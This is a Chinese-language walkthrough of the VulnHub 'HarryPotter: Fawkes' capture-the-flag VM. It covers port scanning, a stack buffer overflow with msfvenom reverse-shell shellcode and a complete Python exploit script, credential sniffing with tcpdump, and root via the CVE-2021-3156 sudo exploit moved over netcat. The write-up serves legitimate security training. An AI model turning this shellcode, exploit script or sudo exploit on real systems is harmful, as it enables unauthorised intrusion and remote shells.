




# HarryPotter-Fawkes

> 靶机文档：[HarryPotter: Fawkes](https://www.vulnhub.com/entry/harrypotter-fawkes,686/)
>
> 下载地址：[**Download (Mirror)**]( https://download.vulnhub.com/harrypotter/Fawkes.ova)
>
> 难易程度：**难上难**


### 信息收集

#### 主机发现

```bash
 sudo netdiscover -r 192.168.8.0/24
```


#### 端口扫描

```bash
 sudo nmap -A -p- 192.168.8.128
```


开放了`ftp,web,ssh等服务`

访问`80`端口


#### dirsearch扫描


#### gobuster扫描

```bash
gobuster dir -u http://192.168.8.128 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,txt,html
```


尽管使用了两个扫描工具，还是没有什么有用的信息

访问`ftp`看看有 什么信息




> ELF是一种文件格式，是Linux的执行文件

赋予该 文件执行权限，，执行后没有反应


> ```python
> ss 是 Socket Statistics 的缩写。ss 命令可以用来获取 socket 统计信息，它显示的内容和 netstat 类似。但  ss 的优势在于它能够显示更多更详细的有关 TCP 和连接状态的信息，而且比 netstat 更快。当服务器的 socket  连接数量变得非常大时，无论是使用 netstat 命令还是直接 cat /proc/net/tcp，执行速度都会很慢。ss 命令利用到了 TCP 协议栈中 tcp_diag。tcp_diag 是一个用于分析统计的模块，可以获得 Linux 内核中第一手的信息，因此 ss  命令的性能会好很多。
> 
> -p, –processes 显示监听端口的进程(Ubuntu 上需要 sudo)
> -a, –all 对 TCP 协议来说，既包含监听的端口，也包含建立的连接
> -n, –numeric 不解析服务的名称，如 “22” 端口不会显示成 “ssh”
> -t, –tcp 显示 TCP 协议的 sockets
> -u, –udp 显示 UDP 协议的 sockets
> 
> ```

发现端口号发端口扫描的时候一样，都是`9898`

使用`nc`工具，尝试监听本地9898端口


给出的信息和端口扫描的时候得出的信息一样


### 漏洞利用

#### 缓冲区溢出

进行缓冲区溢出测试之前需要关闭`ASLR`

> aslr是一种针对缓冲区溢出的安全保护技术，通过对堆、栈、共享库映射等线性区布局的随机化，通过增加攻击者预测目的地址的难度，防止攻击者直接定位攻击代码位置，达到阻止溢出攻击的目的的一种技术。如今Linux，Windows等主流操作系统都已采用了该技术。

将kali上的ALSR安全机制关闭，该技术会导致地址空间随机化，不便调试

ALSR由 `/proc/sys/kernel/randomize_va_space` 决定，默认为2

> 0 - 表示关闭进程地址空间随机化
>
> 1 - 表示将mmap的基址，stack和vdso页面随机化。
>
> 2 - 表示在1的基础上增加栈（heap）的随机化。

```bash
echo 0 > /proc/sys/kernel/randomize_va_space
```


##### edb-debugger工具

`apt install deb-bebugger`安装这个图形化程序调试工具

如果安装不上可以从[Github](https://github.com/eteran/edb-debugger)上拉取到本地，再进行编译


安装依赖：

```bash
sudo apt-get install        pkg-config 
sudo apt-get install        cmake 
sudo apt-get install        build-essential
sudo apt-get install        libboost-dev
sudo apt-get install        libqt5xmlpatterns5-dev
sudo apt-get install        qtbase5-dev  
sudo apt-get install        qt5-default    
sudo apt-get install        libgraphviz-dev  
sudo apt-get install        libqt5svg5-dev 
sudo apt-get install        libcapstone-dev            
```


```bash
# build and run edb
$ git clone --recursive https://github.com/eteran/edb-debugger.git
$ cd edb-debugger
$ mkdir build
$ cd build
$ cmake -DCMAKE_INSTALL_PREFIX=/usr/local/ ..
$ make
$ sudo make install
$ edb
```

，打开后点击`attach`功能，通过关键字选择已经跑起来的程序`server_hogwarts`（前提`kali`已经启动了`server_hogwarts`程序），点击开始按钮运行


使用`Python`生成500个A进行一般探测

```python
python -c "print('A'*500)"
```


nc连接`9898`，注入生成的500个A


发现目标程序崩溃，位置0x41414141出现了错误


EIP寄存器存储的是下一个指令的内存地址，而ESP寄存器中存储的是具体命令

##### msf-pattern工具

***寻找缓冲区溢出位置：***

使用msf生成500个随机字符串

```bash
 msf-pattern_create -l 500
```


重新打开一次那个文件，还有edb，将生成的字符串输入到咒语选择的地方


通过报错提示我们得知`0×64413764`内存位置有问题，那这个位置很有可能就是想找的溢出位置；
 查找该段编码对应的字符串在模式字符串中的偏移量： 

```bash
msf-pattern_offset -l 500 -q 64413764
```


也就是说从模式字符串中的第113个字符串开始造成了栈溢出

找到偏移位置后，构造反弹shell，要将构造的反弹shell十六进制后放入到ESP中，再让EIP指向ESP，反弹shell被执行


找到 `jmp esp` 指令并记录其地址（`0x08049d55`） 

由于机器指令需要反写，转化为16进制
```
  08049d55---->559d0408---->\x55\x9d\x04\x08（需要写入EIP的内容）
```

  使用msf构造反弹shell

```bash
msfvenom -p linux/x86/shell_reverse_tcp LHOST=192.168.8.8 LPORT=6868 -b "\x00" -f python

# LHOST：改为 kali 的 IP；
# LPORT：改为监听反弹 shell 的端口号；
# -b "\x00"：过滤坏字符（’\0’），避免输入提前终止
```


得出的Payload：

```bash
buf =  b""
buf += b"\xbb\xae\xef\x70\xa4\xda\xd0\xd9\x74\x24\xf4\x5a"
buf += b"\x33\xc9\xb1\x12\x83\xea\xfc\x31\x5a\x0e\x03\xf4"
buf += b"\xe1\x92\x51\x39\x25\xa5\x79\x6a\x9a\x19\x14\x8e"
buf += b"\x95\x7f\x58\xe8\x68\xff\x0a\xad\xc2\x3f\xe0\xcd"
buf += b"\x6a\x39\x03\xa5\xac\x11\xfb\x3d\x45\x60\xfc\x27"
buf += b"\x41\xed\x1d\xe7\x0f\xbe\x8c\x54\x63\x3d\xa6\xbb"
buf += b"\x4e\xc2\xea\x53\x3f\xec\x79\xcb\xd7\xdd\x52\x69"
buf += b"\x41\xab\x4e\x3f\xc2\x22\x71\x0f\xef\xf9\xf2"
```

构造exp脚本

```python
# exp.py
import struct, socket,sys

buf =  b""
buf += b"\xbb\xae\xef\x70\xa4\xda\xd0\xd9\x74\x24\xf4\x5a"
buf += b"\x33\xc9\xb1\x12\x83\xea\xfc\x31\x5a\x0e\x03\xf4"
buf += b"\xe1\x92\x51\x39\x25\xa5\x79\x6a\x9a\x19\x14\x8e"
buf += b"\x95\x7f\x58\xe8\x68\xff\x0a\xad\xc2\x3f\xe0\xcd"
buf += b"\x6a\x39\x03\xa5\xac\x11\xfb\x3d\x45\x60\xfc\x27"
buf += b"\x41\xed\x1d\xe7\x0f\xbe\x8c\x54\x63\x3d\xa6\xbb"
buf += b"\x4e\xc2\xea\x53\x3f\xec\x79\xcb\xd7\xdd\x52\x69"
buf += b"\x41\xab\x4e\x3f\xc2\x22\x71\x0f\xef\xf9\xf2"

payload = b'A'*112 + b'\x55\x9d\x04\x08' + b'\x90'*32  + buf
#payload = 112 * b'A' + struct.pack('I',0x08049d55) + 32 * b'\x90' + buf
try:

    s = socket.socket(socket.AF_INET,socket.SOCK_STREAM)
    s.connect(('192.168.8.8', 9898))
    s.send((payload))
    s.close()
except:
    print("Wrong!")
    sys.exit()
   
```


成功拿到shell

#### docker容器内提权

在harry的目录下查看到`.mycreds.txt`中有一串疑似密码的字符串`Harryp0tter@Hogwarts123`，查看是否可以用来ssh登录

 22端口下发现无法进入，前面端口探测到2222端口也是ssh服务，尝试在2222端口连接

`harry : HarrYp0tter@Hogwarts123 `

```
ssh harry@192.168.8.128 -p 2222
```


连接成功第一件事就是看看有没有能够以`root`省份执行的命令


结果发现有所有的权限，而且还有不需要密码

> **sudo -i**，使用**root用户的环境变量**，跳转到/root，拥有超级管理员权限
>
> **sudo -s**，使用**当前用户的环境变量**，不跳转目录；拥有超级管理员权限

查看`root`目录下


#### tcpdump流量分析

根据提示，是要让我们把21端口的流量 监听分析一下，同时，使用ip a发现，这应该不是靶机本体，应该是在一个docker中，根据ip地址进行判断，这个2222端口应该是docker中的ssh，所以我们并没有进入到靶机本体的22端口，



监听21端口流量

```bash
tcpdump -i eth0 port 21
```



发现` neville`用户，密码`bL!Bsg3k`

连接`22`端口成功，并且找到了第二个`flag`


再次查看`ip`，此时已经从`docker容器`里出来了


#### 容器外- sudo漏洞提权

查看`sudo  `版本

```bash 
sudo --version
```



网上找出该版本是`sudo堆溢出漏洞`，漏洞编号：`CVE-2021-3156`，普通用户可以通过利用此漏洞，在默认配置的 sudo 主机上获取root权限

exp地址:`https://github.com/worawit/CVE-2021-3156/blob/main/exploit_nss.py`

kali使用`wget`命令将其下载

在靶机中查看sudo的路径

```bash 
which sudo 
```


然后修改下载的exp里的`SUDO_PATH`


靶机开启监听，端口`6868`

```bash
nc -lvnp 6868 >  exploit_nss.py
```


kali机访问靶机的`6868`端口，上传修改好的exp

```bash
nc 192.168.8.128 6868 < exploit_nss.py -w 1
```


在靶机上运行exp即可提权成功！


